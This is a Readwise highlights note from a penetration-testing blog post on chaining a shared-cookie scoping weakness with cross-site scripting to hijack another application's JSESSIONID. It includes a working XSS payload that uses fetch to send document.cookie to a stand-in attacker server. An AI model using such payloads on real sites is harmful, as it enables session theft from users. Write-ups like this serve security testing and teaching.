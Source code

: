 ```yaml
---
author: Anurag Mondal
aliases:
  - "From Informational to Critical: Chaining & Elevating Web Vulnerabilities"
tags:
  - readwise/articles
url: https://www.netspi.com/blog/technical-blog/web-application-pentesting/uncovering-a-critical-vulnerability-through-chained-findings/
date: 2024-12-19
---
```

# From Informational to Critical: Chaining & Elevating Web Vulnerabilities

![rw-book-cover](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_TECH_Chaining-Elevating-Vulnerabilities_Social-1.webp)

## Highlights


## The Attack Chain Begins: Cross-Application Cookie Exposure 

 The issue stemmed from the fact that all **applications were sharing the same cookie storage on the client side**. This led to an **Informational Severity finding, due to the way cookies were scoped to the parent domain** (i.e., example.com). While each application had its own port, they were all vulnerable to **Cross-Application Cookie Exposure**, a scenario where cookies could be leaked between the different applications running on the same domain.
 
 Although important, this finding did not initially have a major impact, because none of the applications depended on session-based authentication. However, that changed when I noticed something unusual in Application C.
> [View Highlight](https://read.readwise.io/read/01jfdb6zs4r2pae670kdy4mdxa)

## XSS on a different origin

This discovery was pivotal. I could now attempt to hijack Application C’s session using the XSS vulnerability in Application A. However, there were several hurdles to overcome.

Nothing worked. I was about to give up when I noticed something crucial—the overwriting of the JSESSIONID cookie from Application C didn’t happen instantaneously. It took a few seconds for the cookie to be updated. So, I decided to add a 5-second delay before executing my payload: 
 ```html
 <script>setTimeout(() => { alert(document.cookie) }, 5000)</script>
```

 ![](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_EXEC_Chaining-Elevating-Vulnerabilities_4-1024x415.webp)
 This worked perfectly! I was able to access the JSESSIONID cookie issued by Application C, and I quickly crafted a stealthy payload to steal it: 
```html
<script>setTimeout(()=>{fetch('https://my-malicious-server.com?cookie='+document.cookie).then()},5000)</script>
```

> [View Highlight](https://read.readwise.io/read/01jfdbc0srb657wsyz6ef4vsbr)

## Full Attack Chain
 ![](https://www.netspi.com/wp-content/uploads/2024/12/12.11.24_EXEC_Chaining-Elevating-Vulnerabilities_6-1024x753.webp)
> [View Highlight](https://read.readwise.io/read/01jfdbddwd96vpzgrwxas4b811)



